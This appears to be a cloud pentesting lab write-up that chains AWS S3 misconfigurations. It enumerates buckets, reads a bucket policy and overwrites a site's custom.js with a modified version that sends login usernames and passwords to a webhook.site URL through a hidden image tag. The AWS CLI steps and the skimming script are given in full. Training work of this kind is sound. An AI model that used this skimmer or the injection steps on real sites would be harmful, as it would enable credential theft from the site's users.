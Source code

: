 # Chaining Attacks

Check S3 buckets. `aws s3api list-buckets --profile PTAcademyJllerena`
![image](https://user-images.githubusercontent.com/46797181/227757045-5fe0977c-58a0-48a8-9d50-a79da3574459.png)

List bucket contents. 

```
aws s3 ls s3://s3-file-load-845168849788 --profile PTAcademyJllerena
aws s3 ls s3://s3-file-load-static-845168849788 --profile PTAcademyJllerena

```
![image](https://user-images.githubusercontent.com/46797181/227757255-998e4eb3-6d8d-4cb8-814f-cb47e9eda231.png)

Check if a static website is available in the browser. Enter the URL in the format `http://s3-file-load-402113608956.s3-website-us-east-1.amazonaws.com/`
![image](https://user-images.githubusercontent.com/46797181/227757843-44100fd9-3cee-4c79-b513-016096a64dcd.png)

Checking the source code, it is possible to see that the application points to the other bucket
![image](https://user-images.githubusercontent.com/46797181/227757961-974638a6-fb24-4383-adf1-7afae792ad0a.png)

Checking the other bucket `aws s3 ls s3://s3-file-load-static-402113608956/static/ --profile PTAcademyJllerena` it can be seen that there are files in there 
![image](https://user-images.githubusercontent.com/46797181/227758067-4e6f663f-ae64-45c8-ae29-ca22b0f3e0e8.png)

Check the bucket policy `aws s3api get-bucket-policy --bucket s3-file-load-static-402113608956 --output text  --profile PTAcademyJllerena | jq `
![image](https://user-images.githubusercontent.com/46797181/227758140-4c74218c-a0c4-42ae-a4fa-8ba11114025b.png)

Copy custom.js script from the bucket to local machine. `aws s3 cp s3://s3-file-load-static-402113608956/static/javascript/custom.js ./ --profile PTAcademyJllerena`
Modify custom.js to steal credentials from the webpage and send them to a custom attacker’s server. The file will look like this

```
function makeRequest() {
var xhttp = new XMLHttpRequest();
xhttp.onreadystatechange = function() {
if (this.readyState == 4 && this.status == 200) {
document.getElementById("output").innerHTML = this.responseText;
}
if (this.readyState == 4 && this.status != 200) {
document.getElementById("output").innerHTML = "Invalid Credentials";
}
};
var url = 'https://ahyk95vfo5.execute-api.us-west-2.amazonaws.com/dev?username=' + $('#pi3').val() + '&password=' + $('#pi4').val()
xhttp.open("GET", url, true);
xhttp.send();
element=document.getElementById('pi3');
element.innerHTML +="<img src='https://webhook.site/51655c62-39b0-41d5-a79f-db620b78a77f/?username="+$('#pi3').val()+"&password="+$('#pi4').val()+"' style = 'display:none'>"
}

```

Then upload the js file back to the bucket. `aws s3 cp custom.js s3://s3-file-load-static-402113608956/static/javascript/custom.js --profile PTAcademyJllerena`

![image](https://user-images.githubusercontent.com/46797181/227759373-afd93298-c822-470b-a36c-99f98a34b609.png)




